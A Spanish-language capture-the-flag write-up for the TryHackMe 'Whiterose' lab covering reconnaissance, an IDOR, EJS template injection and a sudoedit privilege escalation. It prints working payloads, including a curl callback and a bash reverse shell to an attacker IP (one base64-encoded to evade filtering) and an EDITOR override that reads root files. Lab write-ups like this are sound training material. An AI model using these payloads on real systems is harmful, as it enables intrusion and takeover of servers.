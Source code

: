 *****

![Imagen1](attachments/Pasted%20image%2020250203213856.png)

#easy

******

Al unirnos al room de THM nos dan un username y password que será importantes tenerlos en cuenta:

~~~bash
username: Olivia Cortez
password: olivi8
~~~


Realizamos un escaneo con **Nmap** para poder observar los servicios que usan:

~~~bash
sudo nmap -sS --min-rate 5000 --open -vv -p- -n -Pn whiterose.thm
~~~

![[Pasted image 20250203214511.png]]

Como podemos ver, tienen el `22` y `80` abiertos. Al ingresar a la pagina web esta nos redirige a otra:

`cyprusbank.thm`

![[Pasted image 20250203214630.png]]

Pasamos a realizar un fuzzing de directorios con gobuster, pero no nos muestra nada interesante.

~~~bash
gobuster dir -u 'http://cyprusbank.thm/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
~~~

Con ffuf realizamos fuzzing de subdominios y vemos que nos dan 2 subdominios:

`www.cyprusbank.thm` `admin.cyprusbank.thm`

~~~bash
ffuf -u 'http://cyprusbank.thm/' -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fw 1
~~~

![[Pasted image 20250203215214.png]]

>[!note]
>`-fw` nos ayuda a descartar falsos positivos en el fuzzing


`www.cyprusbank.thm` no hay nada, sin embargo en `admin.cyprusbank.thm` nos muestra un login donde podemos intentar poner las credenciales del inicio.


![[Pasted image 20250203215438.png]]

Al ingresar con la cuenta de Olivia podemos ver varias cosas interesantes y donde podemos encontrar una de las primeras flag del room.

![[Pasted image 20250203220037.png]]

No podemos ingresar a settings, al parecer no tenemos privilegios.

![[Pasted image 20250203220137.png]]

Pero en mensajes podemos ver algo que me resulto interesante:

![[Pasted image 20250203220242.png]]

En la url podemos ver `c=5` y al cambiar los valores encontramos un IDOR que nos deja observar otros mensajes:

![[Pasted image 20250203220405.png]]

Al explorarlo mas al fondo, damos con una conversación donde el user `Gayle Bev` escribe su password `p~]P@5!6;rs558:q`, y al ingresar con su sesión podemos obtener la primera flag.

*****

Una vez iniciado la sesión de `Gayle Bev` podemos ingresar al apartado de de settings de la web page. En esta podemos actualizar passwords de usuarios:

![[Pasted image 20250203221334.png]]

Al revisar la solicitud con Burpsuite podemos modificar varios puntos para checar la posibilidad de XSS o SSTI. Interceptamos la request y omitimos el passwords y podemos ver que nos contesta con el siguiente error:

![[Pasted image 20250203221618.png]]

En este mensaje podemos observar que están usando `.ejs` (Embedded JavaScript templates), lo que indica que el servidor renderiza plantillas dinámicas. Dado que `.ejs` es vulnerable a **Server-Side Template Injection (SSTI)** si no se maneja correctamente la entrada del usuario, podemos buscar payloads específicos para explotar este tipo de vulnerabilidad en `ejs` y evaluar si es posible ejecutar código en el servidor.

~~~javascript
%%1");process.mainModule.require('child_process').execSync('calc');//
~~~

https://github.com/mde/ejs/issues/720

Modificamos el payload para realizar un curl a nuestro Python server.

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.8.27.189:6666');//
~~~

![[Pasted image 20250203222756.png]]

![[Pasted image 20250203222807.png]]

Con esto confirmamos que es un **SSTI**, ahora podemos intentar para explotar una RCE, para esto podemos crear un reverse Shell (https://www.revshells.com/):

![[Pasted image 20250203223016.png]]

Modificamos nuestro payload para que ejecute la reverse:

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -i >& /dev/tcp/10.8.27.189/6666 0>&1');//
~~~

Pero al parecer nos esta filtrando la request, entonces aquí podemos encodearlo en base64 para intentar pasarlo.

~~~js
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjguMjcuMTg5LzY2NjYgMDA+JjE= | base64 -d | bash"');//  
~~~

![[Pasted image 20250203224626.png]]

Listo, tenemos acceso a la maquina donde podemos encontrar la siguiente flag, pero antes podemos mandar a llamar una Shell interactiva con python:

~~~python
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

![[Pasted image 20250203224739.png]]

******
Ahora para escalar privilegios podemos observar primero que podemos hacer con sudo:

~~~bash
sudo -l
~~~

Y aqui podemos ver algo que podemos explotar:

![[Pasted image 20250203224920.png]]

Podemos checar la versión que usa `sudoedit` con `sudoedit -V` y podemos ver que usa la versión `1.9.12p1`

![[Pasted image 20250203225015.png]]

Al investigar encontramos que existe un CVE para esta versión de `sudoedit`

~~~bash
CVE-2023-22809
~~~

Ahora con lo que encontramos acerca de esta CVE podemos cambiar la variable para que nos muestre la flag de root:

~~~bash
export EDITOR="vi -- /root/root.txt"
~~~

Ya solo queda ejecutar el comando que vimos al principio y aquí tendremos nuestra siguiente y ultima flag:

~~~bash
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
~~~

